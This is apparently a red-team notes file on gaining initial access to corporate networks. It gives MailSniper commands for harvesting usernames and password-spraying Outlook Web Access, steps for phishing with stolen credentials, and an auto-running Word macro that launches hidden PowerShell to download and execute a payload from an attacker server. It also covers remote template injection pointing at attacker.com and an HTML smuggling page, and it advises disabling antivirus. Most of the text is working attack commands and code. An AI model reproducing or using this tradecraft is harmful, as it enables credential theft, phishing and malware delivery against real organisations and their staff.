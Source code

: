 # Initial Compromise Notes

**Password Spraying**
I have a love/hate relationship with password spraying. Anyways, tools like [MailSniper](https://github.com/dafthack/MailSniper) or [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) can help.

Import MailSniper, turn off defenders real-time protection for this.
```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Enumerate NetBIOS name of target domain with Invoke-DomainHarvestOWA from MailSniper. I find you can also enumerate this with nmap-ing smb of devices on a domain. Although that's more from doing labs so probably more usefull for ctf's, don't recommend because port scanning is really loud.
```
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

Not talked about yet, but check the websites for possible users or social media, add their names into an arbitrary file like names.txt for us to use a tool like namemash.py that turns this name into possible username permutations. 
```
./namemash.py names.txt > possible.txt
```

Now we can use Invoke-UsernameHarvestOWA to enumerate for possible users using this possible.txt and the NetBIOS we enumerated from before.
```
Invoke-UsernameHarvestOWA -ExchHostname <email subdomain> -Domain <domain> -UserList possible.txt -OutFile valid.txt
```

Now password spray, you can get easy to test passwords from places like [weakpasswords.net](https://weakpasswords.net/)
```
Invoke-PasswordSprayOWA -ExchHostname <email subdomain> -userList valid.txt -Password <password>
```

MailSniper has other functions like downloading the glabal address list
```
Get-GlobalAddressList -ExchHostname <mail subdomain> -UserName <domain\poppedUser -Password <password found> -OutFile gal.txt
```

**internal phishing**
With user creds you could just go to that email subdomain through a browser and logging in and sending phishing emails like that. 

**Initial Access Payloads**
You can attach a payload in the email or send a url where to download the malicious file. MOTW exists for any files downloaded via a browser which makes the file look untrusted. 

## VBA Macros
We can use VBA Macros to exist code using microsoft office. Open word on the attacker desktop go to View>Macros>Create. Change the "Macros in" field from "All active templates and documents" to "Document 1". Give the macros a name and save it. To have it execute on open use AutoOpen, in the below it will download a powershell payload from beacon that we set up. The /a is the powershell payload URI, and the attackerserver is the teamserver we are using to host this. You can check beacon payloads in command and control to review this.  
```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://<attackerserver>/a'))"""

End Sub
```
Remove username of your system from being embedded in document

*File>Info>Inspect Document>Inspect Document*
Click *Inspect* > *Remove All* next to *Document Properties and Personal Information* 

Next save the word document with the macro as a *Word 97-2003(.doc)*

Then upload to teamserver by going to *Site management > Host File*

Attach the file in an email and send to targets. A user will need to click *Enable Editing* and then *Enable Content* to execute the macro.

If executed you will receive a new beacon in Cobalt Strike.

## Remote Template Injection
Remote template injection is where you trick a user to open a document that downloads a malicious template. 

Steps to follow
1. Save the malicious macro file as a *Word 97-2003(.dot) file as your injection template
2. Host this template in teamserver Cobalt Strike like above
3. Create a new document from the blank template located in *C:\Users\Attacker\Documents\Custom Office Templates* as a .docx file.
4. Right click this file in file explorer and select *7-zip>Open archive*
5. Navigate to *word>_rels*
6. Right click to Open and Edit the settings.xml.rels
7. Scroll until you find the *Target* entry and change this to your teamservers malicious .dot file
   ```
   Target="http://attacker.com/template.dot"
   ```
8. Save this and email the target the document

A lot of this can be done with this the [remoteinjector](https://github.com/JohnWoodman/remoteinjector) tool

## HTML Smuggling
A technique to use JavaScript to hide files from content fiters.

Example HTML smuggling code
```
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```
This still gets the MOTW on it as it was downloaded over the internet
